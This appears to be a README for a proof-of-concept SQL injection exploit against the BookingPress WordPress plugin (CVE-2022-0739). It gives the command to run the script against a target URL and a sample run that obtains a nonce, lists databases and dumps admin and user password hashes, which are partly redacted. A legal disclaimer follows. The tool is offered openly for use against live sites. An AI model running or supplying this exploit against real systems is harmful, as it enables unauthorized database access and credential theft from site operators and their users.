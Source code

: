 # CVE-2022-0739
Proof-of-Concept exploit (SQLI BookingPress before 1.0.11)

#Usage
Supply the URL to where the Booking Press plugin is in use on the application.

bash exploit.sh '<insert url here>'

e.g.  (Hashes are redacted in this demo) 



  				                                                           
		
			
		┌──(user@user)-[~/]
		└─$ bash sqli_exploit.sh 'http://localhost/calendar/'
		    ____              __   _             ____                     
		   / __ )____  ____  / /__(_)___  ____ _/ __ \________  __________
		  / __  / __ \/ __ \/ //_/ / __ \/ __ `/ /_/ / ___/ _ \/ ___/ ___/
		 / /_/ / /_/ / /_/ / ,< / / / / / /_/ / ____/ /  /  __(__  |__  ) 
		/_____/\____/\____/_/|_/_/_/ /_/\__, /_/   /_/   \___/____/____/  
				               /____/                             
		   _______    ________    ___   ____ ___  ___        ____  __________ ____ 
		  / ____/ |  / / ____/   |__ \ / __ \__ \|__ \      / __ \/__  /__  // __ \
		 / /    | | / / __/________/ // / / /_/ /__/ /_____/ / / /  / / /_ </ /_/ /
		/ /___  | |/ / /__/_____/ __// /_/ / __// __/_____/ /_/ /  / /___/ /\__, / 
		\____/  |___/_____/    /____/\____/____/____/     \____/  /_//____//____/  
	
		[+] Exploiting http://localhost ...
		[+] Vulnerable url at http://localhost/calendar/...
		[+] Gettting nonce...
		[+] Found nonce: 219087f4c2
		[+] Extract database name...

		information_schema
		test_db


		[+] Getting creds...
		admin $P$BGrGrgXXXXXXXXXXXXXX
		testUs3r $P$B4aNM28NXXXXXXXXXXX
  
---------------------------------------------------------------------

DISCLAIMER

Usage of this program without prior mutual consent can be considered as an illegal activity. It is the final user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. 
